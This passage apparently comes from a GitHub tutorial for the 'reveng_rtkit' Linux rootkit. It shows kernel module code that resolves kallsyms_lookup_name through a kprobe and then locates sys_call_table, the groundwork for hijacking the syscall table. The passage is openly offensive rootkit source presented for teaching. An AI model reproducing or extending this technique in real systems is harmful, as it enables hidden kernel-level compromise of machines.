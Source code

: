 	        kallsyms_lookup_name_t kallsyms_lookup_name;

	        // register_kprobe() specifies where the probe is to be inserted and what handler is to be called when the probe is hit.
	        register_kprobe(&kp);

	       /*
            * // pwd: /lib/modules/5.11.0-49-generic/build/include/linux/kprobes.h
            * // https://elixir.bootlin.com/linux/v5.11/source/include/linux/kprobes.h#L62
            *
            * struct kprobe {
            *       ...
            *
            *       // location of the probe point
            *       kprobe_opcode_t *addr;
            *
            *       // Allow user to indicate symbol name of the probe point
            *       const char *symbol_name;
            *
            * 	      ...
            * 	};
            */
	
	        kallsyms_lookup_name = (kallsyms_lookup_name_t) kp.addr;


	        // Storing of address of original `kallsyms_lookup_name` is done. No need of kprobes from now.
	        unregister_kprobe(&kp);

	        // Storing the address of the syscall table
	        syscall_table = (unsigned long*)kallsyms_lookup_name("sys_call_table");

	        if (!syscall_table)
		        return -1;

	        printk(KERN_INFO "[+] reveng_rtkit: Address of kallsyms_lookup_name in kernel memory: 0x%px \n", kallsyms_lookup_name);
	        printk(KERN_INFO "[+] reveng_rtkit: Address of sys_call_table in kernel memory: 0x%px \n", syscall_table);

	        return 0;
        }

        // ========================== Exit Function ====================

        static void __exit rootkit_exit(void)
        {
	        printk(KERN_INFO "[-] reveng_rtkit: Unloaded \n");
	        printk(KERN_INFO "=================================================\n");
        }

        module_init(rootkit_init);
        module_exit(rootkit_exit);


        MODULE_LICENSE("GPL");
        MODULE_AUTHOR("reveng007");
        MODULE_DESCRIPTION("Demo syscall table hijaking");
        MODULE_VERSION("1.0");
        ```
        #### Output:
        ![](https://github.com/reveng007/reveng_rtkit/blob/main/img/Blog12.png?raw=true)
